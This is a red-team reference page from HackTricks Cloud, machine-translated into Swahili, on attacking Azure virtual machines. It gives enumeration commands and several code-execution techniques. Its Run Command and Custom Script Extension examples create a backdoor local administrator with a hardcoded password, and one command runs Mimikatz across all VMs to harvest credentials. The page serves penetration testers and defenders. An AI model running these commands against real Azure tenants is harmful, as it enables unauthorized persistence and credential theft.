 # Az - Mashine za Kijijini & Mtandao

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Taarifa za Msingi

[Kutoka kwenye docs:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Mashine za kijijini za Azure ni mojawapo ya aina kadhaa za [rasilimali za kompyuta zinazopatikana kwa mahitaji, zinazoweza kupanuliwa](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) ambazo Azure inatoa. Kwa kawaida, unachagua mashine ya kijijini unapohitaji udhibiti zaidi juu ya mazingira ya kompyuta kuliko chaguzi nyingine zinavyotoa. Makala hii inakupa taarifa kuhusu kile unapaswa kuzingatia kabla ya kuunda mashine ya kijijini, jinsi ya kuunda hiyo, na jinsi ya kuisimamia.

## Taarifa za Mtandao wa Azure

Mitandao ya Azure ina **entiti tofauti na njia za kuikamilisha.** Unaweza kupata **maelezo mafupi,** **mfano** na **amri za kuhesabu** za entiti tofauti za mtandao wa Azure katika:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** inatoa suluhisho salama, lililohudumiwa kikamilifu la RDP (Remote Desktop Protocol) na SSH (Secure Shell) kupitia SSL kupitia lango la Azure. Imeunganishwa ndani ya Mtandao wa Kijijini wa Azure, ikiruhusu muunganisho wa RDP na SSH kwa VMs kwa kutumia IP za kibinafsi, ikiepuka hitaji la IP za umma. Hii inafanya kuwa mbadala salama na rahisi zaidi kwa mbinu za jadi zinazohusisha ugawaji wa IP za umma na usanidi wa sheria za NSG kwa ufikiaji wa VM. Wanaendeleza na wafanyakazi wa IT wanaweza kufikia VMs kwa usalama kutoka kwenye lango la Azure wakitumia vivinjari vyao vya wavuti, wakifanya mchakato kuwa rahisi kwa mazingira ya maendeleo na majaribio.

Ili kuorodhesha Hosts zote za Azure Bastion katika usajili wako, unaweza kutumia amri ifuatayo:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## Uainishaji wa VM
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Kimbia amri katika VM**

### **AAD Kuingia katika VM**

Inawezekana kuruhusu ufikiaji kwa watumiaji walioidhinishwa kupitia AzureAD. Kwa mfano, kujaribu kufikia **linux VM**: `ssh username@azure-corp.com@1.1.1.1` (ni muhimu **kutumia barua pepe** na azurecorp iliyotumika unapojaribu kuingia) unaweza kupata kosa kama: 

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Fuata **maagizo hayo** kwa kutembelea [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) na kuonyesha msimbo, tumia barua pepe na nenosiri kama ithibitisho na utaweza kuungana kupitia SSH (ikiwa mtumiaji huyo ana ruhusa za kutosha kufanya hivyo: `Virtual Machine Administrator Login` au `Virtual Machine User Login` role).

### **Run Command**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Run Custom Script Extension**

Azure virtual machine (VM) extensions ni **programu ndogo** ambazo hutoa usanidi wa baada ya kutekeleza na **kazi** za automatisering kwenye **Azure VMs**. Kwa mfano, ikiwa mashine ya virtual inahitaji usakinishaji wa programu, ulinzi wa antivirus, au uwezo wa kuendesha script ndani yake, unaweza kutumia nyongeza ya VM.

Hivyo, ikiwa una ruhusa ya kuandika, unaweza kutekeleza msimbo wowote:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) ni chombo cha PowerShell kinachofanana na Ansible, kinachotumika kwa ajili ya kuandaa mwenyeji kupitia msimbo. DSC inajumuisha na Azure, ikiruhusu upakuaji wa faili maalum za usanidi. Faili hizi zinapaswa kufuata sarufi kali. Kwa kuzingatia, nyongeza ya DSC katika Azure inaweza kutekeleza amri kutoka kwa faili ambazo zinakidhi vigezo fulani vya muundo, hata kama sarufi si sahihi kwa viwango vya DSC, kama inavyoonyeshwa katika picha iliyotolewa.

Utekelezaji wa amri hizi unarahisishwa na [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) kazi katika Az PowerShell. Mahitaji ni pamoja na faili ya **.PS1** yenye kazi iliyofafanuliwa na faili hiyo inapaswa kufungwa katika faili ya **.zip**. Ingawa sarufi inaweza kuwa si sahihi kwa DSC, msimbo bado utaweza kutekelezwa. Hata hivyo, nyongeza itakadiria hali ya utekelezaji kama "kushindwa," na hakuna matokeo kutoka kwa amri yatakayokuwa yanaonekana kutokana na hali hiyo kufutwa na ujumbe wa kushindwa.

### VM Application Definitions

VM Application Definitions zinaruhusu upakuaji wa kurudiwa wa programu zenye toleo kwa VM ya Azure. Rasilimali hii inasaidia upakuaji na sasisho la programu katika VMs. Ili kuanzisha hii, hatua kadhaa zinahitajika, zikihusisha amri kama **`New-AzGalleryApplication`** na **`New-AzGalleryApplicationVersion`** katika Az PowerShell.

Utekelezaji wa programu au amri kupitia njia hii unahusisha **"VMAppExtension,"** ambayo inasakinishwa kiotomatiki wakati programu inapowekwa kwenye VM. Nyongeza inachukua faili kutoka URI iliyotolewa na kuipa jina sawa na programu, bila nyongeza. Ili kutekeleza faili hiyo kwa usahihi, uwanja wa "ManageActions" katika wito wa REST API unapaswa kuwekewa jina la faili na nyongeza inayofaa. Mpangilio wa njia hii, ukikamilika, utafanana na muundo ulioonyeshwa katika picha iliyotolewa.

Hata hivyo, njia hii ya utekelezaji ni polepole, ikichukua takriban dakika 3-4 kutekeleza programu au amri. Faili zinazohusiana na mchakato huu zimehifadhiwa katika directories maalum (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` kwa nakala ya programu na `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` kwa hali ya utekelezaji).

Mbinu zote mbili zinatoa njia za kipekee za kutekeleza amri na kupakia programu katika mazingira ya Azure, kila moja ikiwa na seti yake ya mahitaji, hatua, na mambo ya kuzingatia.

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) ni kipengele katika Azure kinachoruhusu Runbooks, zilizowekwa katika Akaunti ya Automation, kutekelezwa kwenye Mashine Halisi ya Azure (VM) ambayo ni sehemu ya HWG iliyoteuliwa. Utekelezaji huu unarahisishwa kupitia nyongeza iliyosakinishwa kwenye VM, ambayo inapeleka msimbo wa Runbook kwenye VM. Kipengele muhimu cha mchakato huu ni kwamba akreditif za kweli si kipengele katika utekelezaji kwa sababu msimbo unakimbia kwa mamlaka ya juu, hasa kama **SYSTEM** au root, kama inavyoonyeshwa katika picha iliyotolewa.

Maelezo muhimu kwa wale wanaotumia VMs za Windows 10 ni hitaji la kubainisha toleo la PowerShell kwa Runbook. Inapaswa kuwekwa ili ikimbie kama PowerShell Toleo 5.1 badala ya 7.1. Hitaji hili linatokana na ukweli kwamba PowerShell 7.1 haijasanidiwa kwa kawaida kwenye VMs hizi, na kusababisha kushindwa kwa utekelezaji wa skripti ikiwa toleo 7.1 limewekwa.

Kipengele hiki cha Azure kinatoa njia thabiti ya kujiendesha na kusimamia kazi katika mazingira ya mseto, ikiruhusu usimamizi wa kati na utekelezaji wa kazi kwenye VMs za Azure.

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
